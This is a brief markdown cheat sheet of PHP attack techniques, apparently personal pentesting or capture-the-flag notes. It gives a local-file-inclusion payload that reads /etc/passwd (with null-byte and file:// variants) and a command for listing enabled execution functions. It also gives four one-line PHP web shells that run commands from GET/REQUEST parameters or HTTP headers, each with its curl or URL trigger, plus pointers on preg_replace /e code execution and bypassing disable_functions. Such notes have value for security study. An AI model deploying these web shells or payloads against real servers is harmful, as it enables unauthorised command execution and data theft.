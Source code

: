 PHP

## Check for registered php stream

- with a lfi you can do some tricks : example :```?configfile=../../../../../../../etc/passwd```

- You may need to add %00 at the end.

- if file is allowed : ```=file:///etc/passwd```

data, php ...

https://dzone.com/articles/the-powerful-resource-of-php-stream-wrappers

---

## Function

- Could be helpful : ```system```, ```shell_exec```

- Know which are enabled : ```php -r 'print_r(get_defined_functions());' | grep -E ' (system|exec|shell_exec|passthru|proc_open|popen|curl_exec|curl_multi_exec|parse_ini_file|show_source)'<?php print_r(get_defined_functions()); ?>```

---

## Execute command :

1.
```
<?php $_SERVER['HTTP_LANG']($_SERVER['HTTP_ACCEPT-LANGUAGE']); ?>

curl -H "Lang: system" -H "Accept-Language: <cmd>" ...
```

2. 
```
<?php system($_SERVER['HTTP_LANG']); ?>
curl -H "Lang: <cmd>"...
```

3.
```
<?php system($_GET['cmd']);?>
http://url/fichier/?cmd=
```

4.
```
<?php system($_REQUEST['cmd']); ?>

file.php&cmd=whoami
```

5. The only limitation is your brain. Try hard !

https://www.acunetix.com/blog/articles/web-shells-101-using-php-introduction-web-shells-part-2/


---

## Preg_replace :

Experimenting with the functionality of the VPNGenerator, it is easy  to spot what it does. A placeholder string in the VPN generator window  is substituted for a custom input via preg_replace() php function. Older implementations of preg_replace() are vulnerable to a remote command execution using \e  specifier if you know how to approach it! I suggest doing your own  research on the function if you are unfamiliar with php. Here are some  links to help you:
  • https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace
  • http://www.madirish.net/402
  • http://php.net/manual/en/function.preg-replace.php
 
 ---
 
## Bypass disable_functions

  https://0xdf.gitlab.io/2019/08/02/bypassing-php-disable_functions-with-chankro.html

